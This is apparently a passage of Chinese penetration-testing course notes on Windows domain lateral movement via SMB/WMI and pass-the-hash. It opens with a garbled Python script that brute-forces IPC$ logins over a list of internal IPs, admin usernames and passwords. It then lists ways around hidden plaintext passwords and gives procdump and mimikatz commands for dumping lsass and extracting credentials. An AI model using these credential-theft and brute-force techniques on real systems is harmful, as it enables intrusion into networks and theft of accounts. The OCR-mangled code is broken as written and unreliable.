 ```
import os,timeips={'192.168.3.21','192.168.3.25','192.168.3.29','192.168.3.30','1'}user = {'Administrator','boss','dbadmin','fileadmin','mack''mary''vpnadm''webadmin'passs = {'admin','admin!@#45','Admin12345'}for ip in ips:for user in users:for mima in passs:exec = "net use \\"+"\\"+ip+"\ipc$ "+mina+" /user:god\\"+userprint("----->"+exec+"<-----")os.system(exec)time.sleep(1)
```



------

**day67.域横向 smb&wmi 明文或 hash 传递**



知识点1:

Windows2012以上版本默认关闭wdigest,攻击者无法从内存中获取明文密码

Windows2012以下版本安装KB2871997补丁,也会导致无法获取明文密码



针对以上情况,我们提供了4种方式解决此类问题

- 1.利用哈希hash传递(pth,ptk等)进行移动
- 2.利用其他服务协议(SMB,WMI等)进行哈希移动
- 3.利用注册表操作开启Wdigest Auth值进行获取
- 4.利用工具或第三方平台(Hachcat)进行破解获取



知识点2:

  Windows系统LM HASH及NTLM Hash加密算法,个人系统在Windows vista后,服务器系统在Windows 2003以后,认证方式均为NTLM Hash。

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2bDTfsmZBGicjgVzpVAn6NBM6NK9T1aOz2Rn5YJEYwxAosG97nNRcANg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

演示案例:

案例1-Procdump+Mimikatz配合获取

procdump是Windows官方的工具

如果上传Minmiktz上传后被杀,可以使用Procdump+Mimikatz这个方法

运行procdump在当前目录下生成lsass.dmp文件

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2lxLuiaclRhZBYueqJjq4JfcC8jYibs64cSZUicOeJU6Zd3iasGRtZefVtw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

然后再在mimi上使用命令还原出来密码

在目标主机上用proc生成文件,然后再在本地上用Mim还原出密码



- 
- 
- 

```
# mimikatz上执行:sekurlas::minidump lsass.dmpsekurlas::logonPasswords full
```
